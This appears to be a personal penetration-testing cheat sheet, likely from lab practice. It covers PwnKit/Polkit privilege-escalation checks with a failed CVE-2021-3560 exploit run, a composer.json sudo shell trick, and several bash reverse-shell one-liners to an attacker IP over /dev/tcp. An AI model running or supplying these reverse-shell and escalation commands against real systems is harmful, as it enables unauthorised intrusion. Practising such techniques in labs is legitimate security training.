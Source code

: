 ### SSH
using one sh key hwen you have miultiple 
```
ssh -i root -o IdentitiesOnly=yes root@127.0.0.1
```
### PWNKIT AND POLKIT TIPS

#### NOTE
- for pwnkit, need to see this in sgid 
```
ls -l /usr/bin/pkexec
```

and the output is this 
`-rwsr-xr-x 1 root root 31032 May 26  2021 /usr/bin/pkexec`

- for polkit, need `gnome-control-center` installed/enalbeld on the system. It was a false positive



wasn't able to exploit at bcs 
![[Pasted image 20250527140709.png]]

Tried polkit and got this issue 
`exploit-CVE-2021-3560.py -u pranavi -p pranavi`
Exploit for CVE-2021-3560 (Polkit) - Local Privilege Escalation USERNAME: pranavi PASSWORD: pranavi ERRORED: Missing dependency "gnome-control-center". Try: "apt install gnome-control-center"

### COMPOSER RUNNING AS SUDO 
add this to the composer.json
```
www-data@debian:/var/www/html/lavita$ echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' > composer.json 
```


### SH/BASH SHELL
```
sh -i >& /dev/tcp/$KaliIP/80 0>&1
```
```
/bin/bash -i >& /dev/tcp/192.168.45.176/443 0>&1
```
```
bash -c "/bin/bash -i >& /dev/tcp/192.168.45.176/443 0>&1"
```
### PATH VAR
```
PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin
```

```
export PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin
```


### DOCKER
```
docker images
```



### WORDLIST BASED ON WEBSITE TEXT
```
cewl http://joker/joomla >> keywords.txt
```

